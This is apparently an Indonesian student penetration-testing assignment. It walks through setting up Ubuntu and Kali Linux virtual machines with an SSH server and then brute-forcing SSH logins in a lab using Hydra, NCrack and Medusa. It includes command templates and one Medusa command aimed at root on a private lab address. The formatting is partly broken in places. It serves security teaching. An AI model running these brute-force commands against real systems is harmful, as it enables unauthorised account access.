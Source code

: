 <b> TUGAS 1 PKSJ </b>
# Uji Penetrasi

## Anggota Kelompok :
1. Aldi Febriansyah - 5114100015
1. Trastian Satria W - 5114100016
1. Kevin A Fachreza - 5114100128

## Uji Penetrasi 1
### Install
#### Install Ubuntu Server

1. Download Ubuntu
1. Buka Virtual Box
1. Pilih New
1. Masukkan nama, dan pilih tipe ubuntu
1. Masukkan jumlah RAM sesuai kebutuhan
1. Pilih Create Virtual Hardisk Now
1. Pilih VHD
1. Pilih Fixed Size
1. Masukkan Ukuran Hardisk, sesuai kebutuhan
1. Pilih ISO Ubuntu
1. Klik Install
1. Setelah Install, ikuti menu Onboarding sesuai pada ubuntu

#### Install Kali Linux

1. Download Kali Linux
1. Buka Virtual Box
1. Pilih New
1. Masukkan nama, dan pilih tipe Linux
1. Masukkan jumlah RAM sesuai kebutuhan
1. Pilih Create Virtual Hardisk Now
1. Pilih VHD
1. Pilih Fixed Size
1. Masukkan Ukuran Hardisk, sesuai kebutuhan
1. Pilih ISO Kali Linux
1. Klik Install
1. Setelah Install, ikuti menu Onboarding sesuai pada Kali

#### Install SSH Server

1. Untuk install ssh server ketik
> sudo apt-get install openssh-server

2. Cek jika install berhasil menggunakan command berikut
> service ssh status

#### Install Tools Medusa, THC-Hydra, NCrack

1. THC-Hydra, NCrack, dan Medusa merupakan tools default Kali, sehingga tidak perlu install

### Brute Force Menggunakan Tools

#### Hydra

1. Hydra membutuhkan list password, maka dibuat file password bernama """""""
1. Jalankan Hydra
> hydra -l [username] -P [text_password] [ip_target] -t [jumlah_thread] [tipe_protocol]

#### NCrack

1. Jalankan NCrack
``` ncrack -p [port] --user [username] -P [text_password] [ip_target] 
```

#### Medusa

1. Jalankan Medusa
``` medusa -u root -P list.txt -h 192.168.33.10 -M sshMedusa v2.2_rc3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net> 
```


1. Jalankan Medusa

